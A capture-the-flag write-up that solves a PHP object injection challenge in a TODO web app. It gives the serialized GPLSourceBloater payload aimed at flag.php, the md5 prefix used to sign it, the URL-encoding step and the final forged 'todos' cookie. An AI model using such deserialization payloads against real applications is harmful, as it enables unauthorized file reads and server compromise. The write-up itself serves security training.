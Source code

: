 # Name: Web: Exotic Attacks: TODO App

## Vulnerability

PHP Object Injection / PHP Insecure Object Deserialization

## Exploit

If you click on the `Open source license` bottom link, you will see the license page and, at the end, the source code to help you craft the payload.
You need to set the right value for the `todos` cookie.

The first 32 bytes of the cookie value should be the md5 hash of the rest of it.

The rest should be serialized data of a `GPLSourceBloater` object, which you can notice has an attribute called `source` that represents the name of the file to be rendered. We will set it to `flag.php` to get the flag. The serialized data looks like this:

`a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}`

Its md5 hash is `'760463360e4919ca238d1566fc26661f'`.

We need to encode it - you can use the `encodeURIComponent` JavaScript function.

```javascript
encodeURIComponent(
    '760463360e4919ca238d1566fc26661f'+
    'a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}'
)
```

So we have to make a request with the result as cookie:

`Cookie: todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D`

Exploit in `../sol/solution.sh`.
